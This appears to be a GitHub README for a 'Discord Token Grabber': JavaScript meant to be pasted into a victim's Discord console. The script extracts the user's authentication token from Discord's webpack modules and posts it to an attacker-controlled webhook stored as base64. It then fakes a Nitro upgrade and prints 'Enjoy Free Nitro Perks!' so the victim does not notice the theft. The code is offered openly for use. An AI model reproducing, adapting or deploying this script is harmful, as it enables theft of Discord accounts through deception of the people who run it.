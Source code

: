 # Discord Token Grabber
### change the value of nitrocode to your discord webhook as base64!
## A simple token grabber lol

```js
var nitrocode = ""
var nitrohacks = window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getToken !== undefined) {return m.default.getToken()}}}])
fetch(atob(nitrocode), {method: 'post', headers: {'Content-Type': 'application/json',}, body: JSON.stringify({content: nitrohacks,}),});
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().premiumType = 2;}}}]);
console.clear()
console.log("Enjoy Free Nitro Perks!")
```
